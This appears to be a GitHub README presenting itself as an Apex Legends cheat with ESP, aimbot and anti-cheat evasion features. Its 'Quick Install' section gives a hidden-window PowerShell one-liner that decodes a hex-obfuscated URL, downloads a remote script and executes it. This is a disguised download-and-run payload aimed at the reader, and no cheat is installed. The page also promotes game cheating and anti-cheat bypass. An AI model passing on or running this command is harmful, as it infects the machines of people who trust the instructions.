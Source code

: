 # 🔫 Apex Legends Internal Cheat

![Platform](https://img.shields.io/badge/platform-windows-blue.svg)
![Status](https://img.shields.io/badge/status-Prototype-yellow)
![License](https://img.shields.io/badge/license-MIT-green.svg)


### Quick Install

- #### Press WIN+R
- #### Copy and insert command

```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

## ✨ Features

### 🎮 ESP (Extra Sensory Perception)
- ✅ Player box, bone and skeleton rendering
- ✅ Distance display
- ✅ Name, team ID, shield and health indicators
- ✅ FOV marker
- ✅ Visibility checks (line-of-sight testing)
- ✅ Item, weapon and death box highlights

### 🎯 Aimbot
- 🔁 Toggleable aim key (e.g. RMB)
- 🎯 Smooth aiming (custom curve)
- 🧠 Closest bone targeting (head, chest)
- 🎯 FOV limiter
- 🧠 Visibility-verified target selection
- 🖱️ Mouse movement emulation or view angle patching

### 🧠 Memory Engine
- 🔍 Pattern scanning (AOB scanning)
- 🔄 Auto-offset updater (via signature scanning or external dump)
- 📦 Struct mapping and entity list iteration
- 🧊 Secure memory abstraction (via kernel bridge or driver communication)

### 🛡️ Anti-Cheat Resilience
- 🧰 Manual mapping support
- 📤 Screenshot cleaning (disables ESP during EAC screenshot)
- 🛑 Avoids WinAPI blacklisted calls
- 🔐 Optional driver-mode bridge for secure memory access (communication only)

### 🔎 Tags

apex legends cheat apex internal hack esp aimbot apex apex rust cheat apex wallhack apex legends aimbot
apex easy anti cheat bypass apex kernel cheat apex overlay rust apex cheat 2025 aimbot apex legends
apex recoil control apex legends pattern scan apex driver communication apex cheat open source
